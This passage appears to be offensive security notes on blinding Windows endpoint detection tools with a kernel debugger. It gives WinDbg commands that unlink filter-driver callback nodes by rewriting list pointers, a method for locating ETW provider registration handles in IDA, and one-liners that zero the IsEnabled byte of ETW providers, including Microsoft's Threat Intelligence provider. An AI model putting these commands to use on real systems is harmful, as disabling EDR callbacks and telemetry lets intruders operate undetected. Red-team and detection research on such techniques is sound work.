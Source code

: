 ```
.symopt- 100
!fltkd.filters
!instance <FLT_INSTANCE ADDRESS> 4
!instance <FLT_INSTANCE ADDRESS> 4
... Next next next
dt _CALLBACK_NODE <CALLBACK_NODE ADDRESS>
```

#### Remove Linked List
- Unlink a callback node by modifying the flink and blink
- Gotta do this for each NODE!

```
dt nt!_LIST_ENTRY <CALLBACK_NODE ADDRESS>
eq <BLINK ADDRESS> <FLINK ADDRESS>
eq <FLINK ADDRESS>+0x8 <BLINK ADDRESS>

eq <CALLBACK_NODE ADDRESS> 0x0
eq <CALLBACK_NODE ADDRESS>+0x8 0x0
```

### ETW Kernel-mode provider
### Listing ETW provider
- Reverse driver of EDR or `ntoskrnl.exe` to retrieve Registration handle name
	- Open the file in IDA
	- Check the imports/exports for the functions that registers ETW `EtwRegister`
	- Check if they it is dynamically resolved by searching trough `mmGetSystemRoutineAddress` in IDA. 
	- Then click on it and press `x`  to cross reference.
	- Check where it write events with `EtwWrite` and write down the first parameter
- Resolve ETW provider registration handle
	- `nt!EtwThreatIntProvRegHandle` - For Microsoft Windows Thread Intelligence (EtwTi)
- Identify `_ETW_GUID_ENTRY` offset and its address
- Identify `_TRACE_ENABLE_INFO` offset and get its member `IsEnabled` value

```
x <DRIVER NAME>!<REG HANDLE NAME>
dq <REG HANDLE ADDR> L1

dt nt!_ETW_REG_ENTRY <REG HANDLE VALUE>
dq <REG HANDLE VALUE>+<OFFSET GUIDENTRY> L1

dt nt!_ETW_GUID_ENTRY <ETW GUID ENTRY ADDR>
dt nt!_TRACE_ENABLE_INFO <ETW GUID ENTRY ADDR>+<OFFSET PROVIDERENABLEINFO>
```

#### Removing ETW provider
```
eb <ETW GUID ENTRY ADDR>+<OFFSET> 0x0
```

#### Removing ETW provider - oneliner
- Can check value with `db poi(poi(<DRIVER NAME>!<REG HANDLE NAME>) + 0x20) + 0x60 L1`
```
eb poi(poi(<DRIVER NAME>!<REG HANDLE NAME>) + 0x20) + 0x60 00
```

#### Microsoft Windows Thread Intelligence example
- Also known as (EtwTi) 

```
eb poi(poi(nt!EtwThreatIntProvRegHandle) + 0x20) + 0x60 00
```